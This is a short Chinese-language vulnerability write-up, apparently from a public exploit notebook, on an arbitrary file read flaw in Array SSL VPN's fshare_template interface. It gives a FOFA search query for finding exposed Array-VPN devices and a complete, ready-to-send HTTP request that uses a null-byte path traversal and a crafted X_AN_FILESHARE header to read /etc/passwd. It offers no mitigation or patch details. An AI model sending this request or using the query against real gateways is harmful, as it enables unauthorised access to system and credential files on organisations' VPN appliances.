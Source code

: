 # Array VPN存在任意文件读取漏洞

# 一、漏洞简介
Array SSL VPN远程安全接入软件具备远程安全接入网关的全部功能，可以在虚拟化或云环境中提供专业的远程安全访问；它帮助用户实现在任何时间任何地点使用任何设备都可以安全地连接到云上的主机或应用。Array的 fshare_template 接口存在任意文件读取漏洞

# 二、影响版本
+ Array VPN

# 三、资产测绘
+ fofa`product="Array-VPN"`
+ 特征

![1725779477080-0973a873-2c5d-4d34-a754-45b9db9c8553.png](./img/A05OLfyJgWII4Te6/1725779477080-0973a873-2c5d-4d34-a754-45b9db9c8553-671397.png)

# 四、漏洞复现
```java
GET /prx/000/http/localhost/client_sec/%00../../../addfolder HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X_AN_FILESHARE: uname=t; password=t; sp_uname=t; flags=c3248;fshare_template=../../../../../../../../etc/passwd
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close
```

![1725779502203-97c419b2-7ba4-4ac3-b00d-d3586b64031e.png](./img/A05OLfyJgWII4Te6/1725779502203-97c419b2-7ba4-4ac3-b00d-d3586b64031e-922332.png)

![1725779512607-983887f4-4a8a-4777-a2f4-359819387b3b.png](./img/A05OLfyJgWII4Te6/1725779512607-983887f4-4a8a-4777-a2f4-359819387b3b-741809.png)



> 更新: 2024-10-22 09:40:55  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gxbmavs2hmreimvi>